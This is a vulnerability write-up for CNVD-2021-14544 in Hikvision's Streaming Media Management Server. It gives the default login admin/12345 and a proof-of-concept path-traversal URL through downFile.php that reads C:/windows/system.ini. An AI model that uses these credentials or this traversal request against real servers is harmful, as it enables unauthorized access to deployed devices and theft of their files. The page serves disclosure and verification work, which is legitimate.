 # HIKVISION Streaming Media Management Server A random file reading vulnerability in the background CNVD-2021-14544

## Vulnerability Description

There is a weak password vulnerability in the streaming media management server of Hangzhou Hikvision System Technology Co., Ltd., which can use the vulnerability to log in to the background to obtain sensitive information through file traversal vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">HIKVISION Streaming Media Management Server</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows, the default account password is `admin/12345`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/hiv-5.png)



The POC is as follows, visit the following Url to download the system.ini file



```plain
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/hiv-6.png)



Successfully read `C:/windows/system.ini`